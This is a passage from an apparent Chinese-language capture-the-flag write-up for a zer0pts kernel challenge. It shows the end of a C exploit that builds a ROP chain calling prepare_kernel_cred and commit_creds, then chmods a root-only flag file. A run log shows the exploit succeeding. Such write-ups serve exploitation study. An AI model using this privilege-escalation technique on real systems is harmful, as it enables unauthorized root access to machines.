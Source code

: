 ```
    buf.vec[0x30/8] = 0x6f0;
    size_t xchg_eax_esp = base_add(raw_xchg_eax_esp);
    buf.vec[0x28/8] = xchg_eax_esp;

    size_t base = xchg_eax_esp &amp; 0xfffff000;
    if(base != mmap(base,0x3000,7,MAP_PRIVATE | MAP_ANONYMOUS,-1,0)){
        fail("mmap failed!n");
        exit(-1);
    }
    msg("base address:0x%llxn",base);
    size_t pop_rdi = base_add(raw_pop_rdi);
    size_t pop_rdx = base_add(raw_pop_rdx);
    size_t mov_rdi_rax = base_add(raw_mov_rdi_rax);
    size_t pop_rsi = base_add(raw_pop_rsi);

    i=0;
    rop[i++] = pop_rdi;
    rop[i++] = 0;
    rop[i++] = prepare_kernel_cred_addr;
    rop[i++] = pop_rdx;
    rop[i++] = 0x100000001;
    rop[i++] = mov_rdi_rax;
    rop[i++] = commit_creds_addr;
    rop[i++] = pop_rdi;
    rop[i++] = 0xffffff9c;
    rop[i++] = pop_rsi;
    rop[i++] = flag_str;
    rop[i++] = pop_rdx;
    rop[i++] = 0777;
    rop[i++] = base_add(raw_x64_sys_chmod)+0xd;
    rop[i++] = pop_rdi;
    rop[i++] = 0x1000000;
    rop[i++] = base_add(raw_msleep);
    memcpy(xchg_eax_esp &amp; 0xffffffff,rop,sizeof(rop));

    mod_write(fd,&amp;buf,sizeof(buf));    
    ioctl(tty_fd,0,0);
    return 0;
}
```

运行效果如下：

```
ivan@ubuntu:~/kernel/meow$ sudo ./start.sh 
/ $ id
uid=1000 gid=1000 groups=1000
/ $ ls -al | grep flag
-r--------    1 root     root            28 Mar  8 09:26 flag
/ $ ./exp &amp;
/ $ [*] leak heap addr: 0xffff8aca0db56c00
[*] do_tty_hangup addr: 0xffffffffafe0f6b0
[*] vmlinux_base addr: 0xffffffffafa00000
[*] base address:0xafa12000
ls -al | grep flag
-rwxrwxrwx    1 root     root            28 Mar  8 09:26 flag
/ $ cat flag
zer0pts{*****CENSORED*****}
```
